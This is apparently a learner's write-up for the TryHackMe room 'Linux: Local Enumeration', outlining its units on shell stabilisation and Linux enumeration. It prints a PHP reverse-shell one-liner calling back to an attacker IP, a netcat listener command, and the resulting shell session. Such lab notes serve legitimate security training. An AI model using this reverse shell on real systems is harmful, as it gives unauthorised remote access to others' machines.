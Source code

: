 # Linux: Local Enumeration

Learn to efficiently enumerate a linux machine and identify possible weaknesses

[Linux: Local Enumeration](https://tryhackme.com/room/lle)

## Topic's

- Linux Local Enumeration

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is **definitely** for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:

- Unit 1 - Stabilizing the shell
  - Exploring a way to transform a reverse shell into a stable bash or ssh shell.
- Unit 2 - Basic enumaration
  - Enumerate OS and the most common files to identify possible security flaws.
- Unit 3 - /etc
  - Understand the purpose and sensitivity of files under /etc directory.
- Unit 4 - Important files
  - Learn to find files, containing potentially valuable information.
- Unit 6 - Enumeration scripts
  - Automate the process by running multiple community-created enumeration scripts.

Browse to the `MACHINE_UP:3000` and follow the instructions.

To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

How reverse shells work in a nutshell:

![](https://i.imgur.com/WlwnnqK.png)

`php -r '$sock=fsockopen("10.8.106.222",9001);exec("/bin/bash -i <&3 >&3 2>&3");'`

```
kali@kali:~/CTFs/tryhackme/Linux Local Enumeration$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.85.18 41576
bash: cannot set terminal process group (559): Inappropriate ioctl for device
bash: no job control in this shell
manager@py:~/Desktop$
```
